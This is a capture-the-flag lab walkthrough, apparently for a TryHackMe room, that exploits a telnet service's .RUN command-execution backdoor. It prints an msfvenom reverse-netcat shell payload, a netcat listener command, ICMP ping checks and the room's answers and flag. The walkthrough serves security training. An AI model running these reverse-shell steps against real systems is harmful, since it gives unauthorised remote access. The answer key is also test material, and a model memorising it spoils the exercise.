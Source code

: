 -   <p>Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)<br /></p>

**=> Answer: `N`**

-   <p>Start a tcpdump listener on your local machine.</p><p><b>If using your own machine with the OpenVPN connection, use:</b><br /></p><ul><li><code>sudo tcpdump ip proto \\icmp -i tun0</code></li></ul><p><b>If using the AttackBox, use:</b></p><ul><li><code>sudo tcpdump ip proto \\icmp -i ens5</code></li></ul><p>This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.<br /></p>

-   <p>Now, use the command <b>"ping [local THM ip] -c 1" </b>through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)<br /></p>

```bash
.RUN ping <local THM ip> -c 1
```

![Guide image](/images/posts/network-services-10.png)
**=> Answer: `Y`**

-   <p>We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:<br /></p><div style="font-size:14px;line-height:17px;-moz-tab-size:4;-o-tab-size:4;-webkit-tab-size:4;tab-size:4"><div><b><span>"msfvenom</span><span> </span><span>-</span><span>p</span><span> </span><span>cmd</span><span>/</span><span>unix</span><span>/</span><span>reverse_netcat </span><span>lhost</span><span>=[local tun0 ip]</span><span></span><span> </span><span>lport</span><span>=</span><span>4444</span><span> </span><span>R"</span></b></div><div><b><span><br /></span></b></div><div><span>-p = payload</span></div><div>lhost = our local host IP address (this is <b>your</b> machine's IP address)</div><div>lport = the port to listen on (this is the port on <b>your </b>machine)</div><div><span>R = export the payload in raw format<br /></span></div><div><span><br /></span></div><div><span>What word does the generated payload start with?<br /></span><b><span></span></b></div><div><span><br /></span></div></div>
    ![Guide image](/images/posts/network-services-11.png)
    **=> Answer: `mkfifo`**

-   <p>Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:</p><p><b>"nc -lvnp [listening port]" </b></p><p>What would the command look like for the listening port we selected in our payload?<br /><b></b><br /></p>

**=> Answer: `nc -lvnp 4444`**

-   <p>Success! What is the contents of flag.txt?<br /></p>

```
.RUN mkfifo...
```

```
cat flag.txt
```

![Guide image](/images/posts/network-services-12.png)
![Guide image](/images/posts/network-services-13.png)
**=> Answer: `THM{y0u_g0t_th3_t3ln3t_fl4g}`**
